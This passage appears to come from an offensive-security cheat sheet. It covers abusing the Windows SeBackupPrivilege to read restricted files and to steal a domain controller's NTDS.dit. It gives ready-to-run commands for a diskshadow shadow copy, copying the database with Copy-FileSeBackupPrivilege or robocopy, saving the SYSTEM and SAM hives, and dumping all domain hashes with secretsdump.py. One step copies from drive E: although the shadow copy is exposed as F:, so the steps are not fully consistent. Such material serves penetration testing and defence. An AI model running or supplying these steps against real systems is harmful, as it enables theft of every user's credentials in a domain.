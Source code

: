 2. Enable and verify `SeBackupPrivilege`:

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

3. Access and copy files from restricted directories, for instance:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack

Direct access to the Domain Controller's file system allows for the theft of the `NTDS.dit` database, which contains all NTLM hashes for domain users and computers.

#### Using diskshadow.exe

1. Create a shadow copy of the `C` drive:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

2. Copy `NTDS.dit` from the shadow copy:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Alternatively, use `robocopy` for file copying:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

3. Extract `SYSTEM` and `SAM` for hash retrieval:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

4. Retrieve all hashes from `NTDS.dit`:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
